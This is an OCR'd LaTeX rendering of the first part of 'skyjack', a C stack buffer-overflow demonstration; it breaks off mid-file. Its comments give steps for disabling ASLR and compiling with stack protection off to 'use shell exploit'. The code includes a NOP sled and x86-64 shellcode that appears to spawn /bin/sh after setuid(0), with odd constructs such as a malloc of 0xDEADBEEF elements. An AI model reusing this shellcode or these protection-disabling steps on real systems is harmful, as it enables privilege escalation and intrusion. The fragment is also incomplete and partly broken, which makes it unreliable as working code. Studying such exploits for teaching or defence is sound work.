 \documentclass[11pt]{article}
\begin{document}
\begin{enumerate}[\indent a)]
\item 
\begin{verbatim}
//
//  main.c
//  skyjack
//
//  Created by Mahmut Bulut on 23/11/14.
//  Copyright (c) 2014 Mahmut Bulut. All rights reserved.
//
// Disable ASLR:
//  	echo 0 > /proc/sys/kernel/randomize_va_space
//
// and compile this via:
// 		gcc -g -fpic -fno-stack-protector -DFORTIFY_SOURCE=0 -z execstack skyjack.c -o skyjack
// to use shell exploit.
//

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char* data;

void watchaddr() {
    printf("%p\n", __builtin_return_address(2));
}

void doodah(char *argv[])
{
    /**
     * Simulate the behavior of StackGuard (preamble)
     * 1- Get return address
     * 2- Allocate space on heap
     * 3- Put return address to a randomized address
     * (for this demonstration we put it in 0xD - can be randomized)
     */
    printf("%p\n", __builtin_return_address(0));
    data = (unsigned long long*) malloc(sizeof(unsigned long long)*0xDEADBEEF);
    *(unsigned long long *)(&data+0xD) = __builtin_return_address(0);

    
    /**
     * Shellcode to execute after buffer overflow
     * This shellcode writes itself every execution to memory
     * In some ASLR protection data is written via cache invalidation
     * ref. https://github.com/sharedRoutine/ASLR-Write/blob/master/aslrwrite.h#L81
     */
    char shellcode[] =
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \

    /**
     * Above NOP sled is 100 bytes
     */
    
    "\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62" \
    "\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31" \
    "\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c" \
    "\x58\x0f\x05" \

    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \


\end{verbatim}
\end{enumerate}
\end{document}
